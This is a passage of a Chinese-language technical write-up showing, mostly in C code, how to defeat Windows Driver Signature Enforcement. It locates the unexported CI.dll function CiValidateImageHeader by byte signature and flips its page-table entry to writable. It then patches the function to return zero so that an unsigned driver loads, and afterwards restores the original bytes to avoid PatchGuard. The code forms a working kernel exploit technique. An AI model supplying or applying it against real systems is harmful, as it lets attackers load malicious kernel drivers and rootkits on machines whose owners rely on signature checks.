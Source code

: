 ```c
	address &= 0x7FFFFFFFF8;
	address += (ULONG_PTR)PTEBase;
	return address;
	
}
```

​    现在我们能够解析虚拟地址的PTE了，我们需要找到*CiValidateImageHeader*的虚拟地址。由于这个函数没有被CI.dll导出，我们将再次通过特征来查找它：

```c
char CiValidateImageHeaderSig[] = { 0x48, 0x33, 0xc4, 0x48, 0x89, 0x45, 0x50, 0x48, 0x8b };
const int CiValidateImageHeaderSigOffset = 0x23;

ULONG_PTR CiValidateImageHeader = signatureSearch(CiValidateFileObjectPtr, CiValidateImageHeaderSig, sizeof(CiValidateImageHeaderSig), 0x100000);

if (CiValidateImageHeader == NULL) {
  return;
}

CiValidateImageHeader -= CiValidateImageHeaderSigOffset;
```

​    

一旦我们获得了*CiValidateImageHeader*的地址，我们可以为虚拟地址获取其对应的PTE位置。我们只需要在相应的PTE值中翻转一个位，强制包含*CiValidateImageHeader*的内存页面变为可写：

```c
ULONG64 *pte = FindPageTableEntry(CiValidateImageHeader);
*pte = *pte | 2;
```

设置页面为可写后，接下来我们只需要用*xor rax, rax; ret*来修补函数的开头，确保我们备份原始指令以供稍后恢复：

```c
char retShell[] = { 0x48, 0x31, 0xc0, 0xc3 };
char origBytes[4];

memcpy(origBytes, CiValidateImageHeader, 4);
memcpy(CiValidateImageHeader, retShell, 4);
```

然后返回页面保护:

```c
*pte = *pte ^ 2;
// After this, page protection is reverted
```

执行后，让我们尝试加载我们的未签名驱动程序：    油管视频

https://www.youtube.com/watch?v=uSNivgtM5BM

一旦我们加载了未签名的驱动程序，另一个重要的事项是恢复先前的函数补丁，以避免与PatchGuard引起的任何问题。同样，这很简单，只需撤销我们的代码更改：

```c
*pte = *pte | 2;
memcpy(CiValidateImageHeader, origBytes, 4);
*pte = *pte ^ 2;
```
